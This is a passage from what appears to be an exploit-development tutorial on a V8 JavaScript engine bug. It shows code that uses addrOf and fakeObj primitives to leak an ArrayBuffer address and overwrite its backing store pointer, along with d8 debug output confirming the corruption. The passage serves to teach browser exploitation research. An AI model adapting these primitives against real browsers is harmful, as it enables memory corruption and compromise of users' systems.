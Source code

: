 ```js
        }
    }
    throw "[!] AddrOf Primitive Failed"
}
```

Now that we have modified our exploit script, we should be able to overwrite an array buffer backing store pointer. Let's test this! 

To start, we'll modify our exploit code by creating a new array buffer with 1024 bytes of data. Afterwards, we'll attempt to leak the address of our array buffer and overwrite the backing store pointer with `0x41414141`.

Take note that that I have added two `%DebugPrint` functions to validate that the addresses we are leaking do coincide with out actual array buffer object, and that we have successfully overwritten the array buffer's backing store pointer.

The updated code at the end of the script should look similar to mines.

```js
print("[+] Finding Overlapping Properties...");
findOverlappingProperties();
print(`[+] Properties p${p1} and p${p2} overlap!`);

// Create Array Buffer
let arrBuf1 = new ArrayBuffer(1024);

print("[+] Leaking ArrayBuffer Address...");
let arrBuf1fAddr = addrOf(arrBuf1);
print(`[+] ArrayBuffer Address: 0x${arrBuf1fAddr.toString(16)}`);
%DebugPrint(arrBuf1)

print("[+] Corrupting ArrayBuffer Backing Store Address...")
// Overwrite Backign Store Pointer with 0x41414141
let ret = fakeObj(arrBuf1, 0x41414141n);
print(`[+] Original Leaked Data: 0x${ret.toString(16)}`);
%DebugPrint(arrBuf1)
```

Upon executing our updated exploit script within d8, we get the following output.

```
C:\dev\v8\v8\out\x64.debug>d8 --allow-natives-syntax C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties...
[+] Properties p15 and p11 overlap!
[+] Leaking ArrayBuffer Address...
[+] ArrayBuffer Address: 0x2a164919360
DebugPrint: 000002A164919361: [JSArrayBuffer] in OldSpace
 - map: 0x00f4b4a84371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0143f1990b21 <Object map = 000000F4B4A843C1>
 - elements: 0x029264b02cf1 <FixedArray[0]> [HOLEY_ELEMENTS]
 - embedder fields: 2
 - backing_store: 000001AEDA203210
 - byte_length: 1024
 - neuterable
 - properties: 0x029264b02cf1 <FixedArray[0]> {}
 - embedder fields = {
    0000000000000000
    0000000000000000
 }
...

[+] Corrupting ArrayBuffer Backing Store Address...
[+] Original Leaked Data: 0x1aeda203210
DebugPrint: 000002A164919361: [JSArrayBuffer] in OldSpace
 - map: 0x00f4b4a84371 <Map(HOLEY_ELEMENTS)> [FastProperties]
 - prototype: 0x0143f1990b21 <Object map = 000000F4B4A843C1>
```